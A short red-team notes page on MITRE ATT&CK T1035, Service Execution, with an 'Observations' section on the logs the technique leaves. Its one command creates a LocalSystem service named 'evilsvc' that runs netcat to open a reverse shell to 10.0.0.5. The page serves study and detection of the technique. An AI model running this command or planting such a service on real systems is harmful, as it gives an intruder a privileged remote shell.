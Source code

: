 ```yaml
---
description: 'Code Execution, Privilege Escalation'
---
```


# T1035: Service Execution

## Execution

Creating an evil service with a netcat reverse shell:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

The reverse shell lives under services.exe as expected:

![](../../.gitbook/assets/services-nc.png)

Windows security, application, Service Control Manager and sysmon logs provide some juicy details:

![](../../.gitbook/assets/services-logs.png)

![](../../.gitbook/assets/services-shell.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1035" %}

